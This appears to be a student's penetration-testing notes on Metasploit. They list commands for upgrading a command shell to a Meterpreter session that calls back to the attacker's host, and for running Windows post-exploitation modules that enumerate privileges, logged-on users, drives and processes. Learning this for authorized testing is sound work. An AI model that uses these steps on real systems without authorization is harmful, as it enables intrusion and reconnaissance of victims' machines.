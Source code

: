      
    
      
    
      
    
      
    

  

  

- **_==Upgrading Command Shells To Meterpreter Shells==_**

> We have 2 way to upgrad our command shell 2 meterpreter

> In some exploits we will get a shell just , bun in this case we want a meterpreter session , becuase it’s more useful

- ==**_Upgrading Command Shells To Meterpreter Shells_**==
    
    - `ctrl + z` ⇒ to put the shell session on background
    - `search shell_to_meterpreter` && `use post/multi/manage/shell_to_meterpreter`
    - `set lhost <our ip>` && `set lport 1234` && `set session <the number of shell session >` && `run`
    
    💡
    
    we can automate that using
    
    - `sessions -u <number of shell session >`
    

  

  

### ==_**Windows Post Exploitation**_==

  

- ==Windows Post Exploitation Modules==

> Some Example ⇒ enum user privileigs , enum logged on user , vm check ,enum AVs ,enum installed program , enum computer connected to admin …etc

- _==Windows Post Exploitation Modules==_
    
    - `service postgresql start` && `msfconsole`
    - `db_nmap -sS -sV -O <target ip >`
    - `loot` ⇒ to see the path of all info u extracted from post modules
    
    💡
    
    After we find the services running and then exploit it
    
    - `show_mount` ⇒ to see what a drives the target system have .
    - `ps` ⇒ to see the proccess tree
    - `search win_privs` && `use post/windows/gather/win_privs` ⇒ to enum the privilages we have on target system
        
        - `set session <number of session>` && `run`
        
          
        
    - `search enum_logged_on` && `use post/windows/gather/enum_logged_on` ⇒ to see who is logged on on this target system
        